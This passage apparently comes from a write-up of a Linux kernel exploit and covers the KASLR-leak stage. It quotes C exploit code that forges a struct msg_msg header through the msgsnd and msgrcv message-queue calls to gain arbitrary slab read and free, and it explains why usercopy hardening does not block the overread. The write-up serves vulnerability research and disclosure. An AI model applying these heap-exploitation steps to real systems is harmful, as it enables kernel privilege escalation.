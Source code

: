 ```c
	dst->m_ts = src->m_ts;

	return dst;
}
```
Note that since the routines of `msgrcv` syscall used `memcpy`[1] rather than `copy_to_user` when the `MSG_COPY` flag is set, the overread across the boundary is not hindered even though `CONFIG_USERCOPY_HARDENED` is enabled. For your information, `CONFIG_USERCOPY_HARNDED` enables the mitigation that stops kernel overread with `copy_to_user`.

### 6.5 KASLR leak

In this step, with the achieved heap leaks, the exploit leaks a kernel base address to bypass KASLR.
- [exploit/extra-refined/exploit.c#L870](../exploit/extra-refined/exploit.c#L870)
```c
// re-reclaim with msg_msgseg to trigger free of 64-sized msg_msg
printf("[+] re-reclaim for 1k slab leak!\n");
memset(buf, 0, sizeof(buf));
buf_ptr = (uintptr_t)buf - 48;
// write the fake size
*(uintptr_t *)(buf_ptr + 0x1000) = 0;                                      // mlist.prev
*(uintptr_t *)(buf_ptr + 0x1000 + 8) = 2;                                  // m_type
*(uintptr_t *)(buf_ptr + 0x1000 + 0x10) = 0x1100;                          // m_ts
*(uintptr_t *)(buf_ptr + 0x1000 + 0x18) = small_msg_msg_addr + 0x400 - 48; // msg_msg->data  + 0x400 - 48 == msg_msgseg!

// PG_SIZE - sizeof(struct msg_msg) - TARGET_SIZE - sizeof(struct msg_msgseg)
memset(msg_buf, 0, sizeof(msg_buf));
ret = msgrcv(msgqid3, msg, 1, 1, IPC_NOWAIT | MSG_NOERROR);
if (ret < 0)
	perror("msgrcv");
if (send_msg(msgqid3, buf, 0x1000 + (CG_MSG_MSG_SIZE - 0x10) - 48 - 8, 1) < 0)
	perror("msgsnd");
```
The `next` field of `struct msg_msg` points to the `struct msg_msgseg` object and can be used for arbitrary read & free. We utilize this arbitrary read primitive to leak `kmalloc-cg-1k` slab contents with leaked slab address.

We set the header of `struct msg_msg` to leak `kmalloc-cg-1k` slab content as follows.
- `m_list.next` will be overwritten to `NULL` by the `next` fields of `struct msg_msgseg`.
- `m_list.prev` can be arbitrary values since it doesn't access by any routines unless the `struct msg_msg` is unlinked. Thus, we set it to `NULL`. 
- `m_type` also can be an arbitrary value. We set it to `2`.
- `m_ts` is set by 0x1100, which is enough size to read `struct msg_msgseg` through overwritten `next` field.
- `next` field is set by `leaked kmalloc-cg-1k chunk's address` + `chunk_size` - `sizeof(struct msg_msg)`. This is for totally controlling the `kmalloc-cg-1k` chunk located below by unaligned free and unaligned `struct msg_msg` techniques. Details will be explained later.
- `security` fields are unused for this steps. It is implicitly set to `NULL`.

The `struct msg_msgseg` that contains a fake `struct msg_msg` header is allocated through `msgqid3` and overwrites the `struct msg_msg` object.
